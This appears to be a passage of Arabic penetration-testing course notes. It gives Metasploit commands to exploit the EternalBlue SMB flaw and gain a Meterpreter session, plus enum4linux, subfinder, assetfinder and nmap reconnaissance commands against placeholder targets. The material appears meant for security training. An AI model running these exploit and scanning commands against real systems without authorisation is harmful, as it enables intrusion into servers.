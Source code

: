 
# **💀 6. استغلال ثغرة EternalBlue (لو SMBv1 موجود)**

🔹 **EternalBlue** هي ثغرة خطيرة بتسمح لنا بالتحكم في السيرفر.  
🔹 لو السيرفر مصاب، ممكن نستخدم **Metasploit** لاختراقه.

### ✅ **استخدام Metasploit لاختراق SMB بـ EternalBlue**

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set LHOST your-ip
exploit
```

🔹 لو نجح الهجوم، هتاخد جلسة **Meterpreter** وتتحكم في الجهاز!

🟢 **الخلاصة بالعامية المصرية:**  
لو SMBv1 موجود وفيه ثغرة EternalBlue، ممكن نستخدم Metasploit عشان نتحكم في السيرفر بالكامل.

---
# ##ملحوظه (من شرح الكورس )

####  
### ممكن تستخدم الاداه دي برضه enum4linux لو لقيت ال  مفتوح


```bash
enum4linux targetip
```

# **🚀 💣 خطوات عملية كاملة لاختبار اختراق الويب (Web Pentesting) 💣**

## **🛠️ 1. جمع المعلومات (Reconnaissance)**

🔹 بنبدأ بالبحث عن **المجالات الفرعية، الملفات، المجلدات، التكنولوجيا المستخدمة، والثغرات المحتملة**.

### ✅ **استخدام Subfinder و Assetfinder لجمع النطاقات الفرعية**

```bash
subfinder -d target.com
assetfinder --subs-only target.com
```

### ✅ **استخدام Nmap لفحص البورتات والخدمات**

```bash
nmap -A -T4 target.com
```
